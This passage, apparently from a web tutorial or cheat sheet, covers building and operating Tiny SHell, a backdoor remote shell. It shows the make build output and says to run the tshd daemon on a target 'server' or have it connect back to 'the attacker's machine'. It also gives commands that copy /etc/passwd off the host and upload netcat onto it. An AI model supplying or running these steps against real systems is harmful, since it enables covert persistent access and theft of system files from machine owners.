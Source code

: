     #endif /* tsh.h */

</div>

Change `secret`, specify `SERVER_PORT`. Uncomment and edit
`CONNECT_BACK_HOST` and `CONNECT_BACK_DELAY` directives if you want
backconnect. Run make:

<div>

    $ make linux_x64
    make                                \
        LDFLAGS=" -Xlinker --no-as-needed -lutil"   \
        DEFS=" -DLINUX"                 \
        tsh tshd
    make[1]: Entering directory '/tmp/tsh'
    gcc -O3 -W -Wall -DLINUX -c pel.c
    gcc -O3 -W -Wall -DLINUX -c aes.c
    gcc -O3 -W -Wall -DLINUX -c sha1.c
    gcc -O3 -W -Wall -DLINUX -c tsh.c
    gcc -Xlinker --no-as-needed -lutil -o tsh pel.o aes.o sha1.o tsh.o
    strip tsh
    gcc -O3 -W -Wall -DLINUX -c tshd.c
    gcc -Xlinker --no-as-needed -lutil -o tshd pel.o aes.o sha1.o tshd.o
    strip tshd
    make[1]: Leaving directory '/tmp/tsh'

</div>

Now run `./tshd` on server. It will start listening on the specified
port. You can connect to it via executing the following command:

`./tsh host_ip`

If tsh was compiled with backconnect capability, the `tshd` daemon will
try to connect back to the attacker’s machine. To launch listener on
attacker’s side:

<div>

    $ ./tsh cb
    Waiting for the server to connect...

</div>

To transfer files with tsh:

<div>

    ./tsh host_ip get /etc/passwd .
    ./tsh host_ip put /bin/netcat /tmp

</div>

</div>

</div>

</div>

\

</div>
